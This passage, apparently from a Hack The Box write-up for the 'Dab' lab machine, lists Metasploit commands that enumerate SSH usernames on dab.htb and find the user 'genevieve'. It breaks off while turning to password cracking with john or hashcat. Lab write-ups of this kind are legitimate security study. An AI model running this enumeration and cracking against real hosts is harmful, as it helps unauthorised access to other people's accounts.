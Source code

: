 `msfconsole`
<br>
<br>
`use auxiliary/scanner/ssh/ssh_enumusers`
<br>
<br>
`set RHOSTS dab.htb`
<br>
<br>
`set USER_FILE usernames.txt`
<br>
<br>
`set THREADS 20`
![](/images/hackthebox/dab/40.png)
<br> It will run for a while , then it will tell us that it found the user `genevieve`
![](/images/hackthebox/dab/41.png)
<br> now we need to get the password of that user. You can use john , hashcat or online crackers , however I have already cracked them and only few ones are crackable : 